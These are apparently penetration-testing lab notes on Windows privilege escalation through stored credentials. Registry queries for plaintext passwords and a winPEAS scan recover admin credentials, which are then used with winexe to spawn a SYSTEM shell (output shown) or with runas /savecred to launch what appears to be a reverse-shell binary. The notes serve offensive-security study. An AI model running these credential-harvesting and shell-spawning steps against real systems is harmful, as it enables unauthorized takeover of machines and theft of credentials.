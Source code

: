 ## Passwords
Administrator re-use their passwords, or leave their passwords on the system in readable locations. Windows can be vulnerable to this, as several features of Windows store passwords insecurely.
## Registry
Plenty of programs store configuration options in the Windows Registry. Windows itself sometimes will store passwords in plaintext in the Registry. It is always worth searching the Registry for passwords.

## 
```bash 
The following commands will search the registry for keys and values that contain “password”
> reg query HKLM /f password /t REG_SZ /s
> reg query HKCU /f password /t REG_SZ /s
This usually generates a lot of results, so often it is more fruitful to look in known locations.
```

##Privilege Escalations
```bash

1. Use winPEAS to check common password locations:
> .\winPEASany.exe quiet filesinfo
userinfo
(the final checks will take a long time to complete)
2. The results show both AutoLogon credentials and Putty
session credentials for the admin user
(admin/password123).
3. We can verify these manually:
> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
4. On Kali, we can use the winexe command to spawn a shell using these
credentials:
# winexe -U 'admin%password123' //192.168.1.22 cmd.exe
Get the system shell by slightly adding --system flag. 

winexe -U 'admin%password123' --system //192.168.193.129 cmd.exe
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```

## Saved Creds
```bash
cmdkey /list
runas /savecred /user:admin rev.exe
```
